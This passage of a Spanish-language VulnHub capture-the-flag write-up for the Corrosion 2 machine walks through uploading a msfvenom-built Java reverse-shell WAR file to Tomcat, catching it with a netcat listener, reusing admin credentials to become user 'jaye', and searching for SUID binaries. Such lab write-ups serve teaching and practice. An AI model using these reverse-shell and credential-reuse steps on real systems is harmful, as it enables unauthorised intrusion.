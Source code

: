 Descubriendo así, que podemos subir archivos .WAR.
![](/assets/images/vulnhub-writeup-corrosion2/Pasted image 20231114122240.png)

Por lo que se me ocurre buscar posibles vulnerabilidades para conectarnos a la máquina qué está corriendo el servicio, encontrándome en [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat) qué podemos mediante "**MSFVenom**" crearnos un payload para entablarnos una Reverse Shell con éste one liner:
```bash
msfvenom -p java/shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war
```

así qué procedemos a poner nuestra IP, y el puerto donde estaremos en escucha,  para tener el "**revshell.war**".

Nos ponemos en escucha en nuestra máquina.
```bash
nc -nlvp 443
```

Procedemos a subir el "**revshell.war**", una vez subido nos aparecerá en el panel.

![](/assets/images/vulnhub-writeup-corrosion2/Pasted image 20231114122915.png)

Le damos click encima de lo que está marcado en rojo, y ya debería entablarnos conexión con nuestro puerto en escucha.

![](/assets/images/vulnhub-writeup-corrosion2/Pasted image 20231114123128.png)

Ahora sólo quedaría darle **tratamiento a la TTY**, que si no sabemos cómo te recomiendo [((CLICKEAR AQUÍ))](https://4uli.github.io/tratamiento-tty/)

# Escala de Privilegios #1 
___

Estamos como el usuario "**tomcat**" que es el servicio web, por lo qué nos interesa escalar nuestro privilegio.

![](/assets/images/vulnhub-writeup-corrosion2/Pasted image 20231114123841.png)

Vemos qué tienen directorios "**jaye**" y "**randy**", por lo qué intento acceder a estos usuarios usando las credenciales qué usamos para acceder como admin a Tomcat.

![](/assets/images/vulnhub-writeup-corrosion2/Pasted image 20231114123946.png)

Logrando así entrar como "**jaye**"

# Escalada de Privilegios #2
____

Y sí como "**jaye**" buscamos ejecutables o binarios con permisos SUID.
```bash
find / -perm -4000 2>/dev/null
```
